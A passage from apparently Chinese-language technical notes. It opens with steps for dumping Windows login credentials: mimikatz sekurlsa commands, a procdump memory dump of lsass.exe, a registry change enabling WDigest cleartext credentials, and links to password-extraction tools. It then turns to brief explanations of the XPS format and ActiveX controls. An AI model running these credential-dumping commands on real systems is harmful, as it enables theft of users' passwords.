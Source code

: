 但是连基本的当前用户都没有获取到。
由于有安全软件，无法在物理机上面测试使用。
发现可能是我的虚拟电脑存在问题，发现使用LaZagne工具也无法获取任何信息。

简单来说就是：
在https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20220919下载mimikatz工具，然后执行：
```
privilege::debug
sekurlsa::logonpasswords
```

可能存在获取为null密码，但亲测没有看出有什么效果：
https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump
```
procdump64.exe  -accepteula -ma lsass.exe lsass
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit 
```

还有修改注册表：
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f

rundll32.exe user32.dll,LockWorkStation
```

发现使用工具还是挺好用的：
https://github.com/AlessandroZ/LaZagne
https://github.com/RowTeam/SharpDecryptPwd
https://github.com/HyperSine/how-does-navicat-encrypt-password
https://www.freesion.com/article/93941500785/

终极方法：winpe登录密码破解工具

## 29、xps文件
xps是 XML Paper Specification的简称，是电子文件格式，可以使用Microsoft XPS打开。

xps是微软公司开发的一种文档保存与查看的规范。这个规范本身描述了这种格式以及分发、归档、显示以及处理 XPS 文档所遵循的规则。最为显著的特点是，XPS 所用的置标语言是 WPF所用的 XAML的一个子集，因此显示 Windows应用程序所用的方法可以用于 XPS 文档。 XPS 是一个静态文档格式，其本身不包括类似于 PDF 所具有的动态特性。 XPS是微软推出的一种文档记录格式工具，即XPS Viewer。它可以打开xps文件，和pdf类似,但不能打开PDF。

XPS Viewer 这个工具被集成到了vista和win7操作系统中，如果你的系统是Vista或win7,那么你就可以直接浏览该XPS文件，其他系统需要下载安装XPS Viewer软件，这是微软为了对抗pdf的一种类似的新格式，不过不能用PDF阅读器打开。

对于其它操作系统的用户来说，就需要下载XPS Viewer这款软件：首先在百度搜索框中输入并下载“XPS Viewer”，下载完成后进行安装，其过程很简单，直接点下一步就可正确安装。

## 30、ActiveX控件
ActiveX是Microsoft对于一系列策略性面向对象程序技术和工具的称呼，其中主要的技术是组件对象模型（COM）。在有目录和其它支持的网络中，COM变成了分布式COM（DCOM）。
ActiveX 控件是用于互联网的很小的程序，有时称为插件程序。它们会允许播放动画，或帮助执行任务，如在 Microsoft Update 安装安全更新，因此可以增强您的浏览体验。在创建包括ActiveX程序时，主要的工作就是组件，一个可以自足的在ActiveX网络（Windows，Mac，Linux）中任意运行的程序。这个组件就是ActiveX控件。ActiveX是Microsoft为抗衡Sun Microsystems的JAVA技术而提出的，此控件的功能和java applet功能类似。

[如何解读微软的 OCX 控件和 ActiveX？](https://www.zhihu.com/question/579996174)
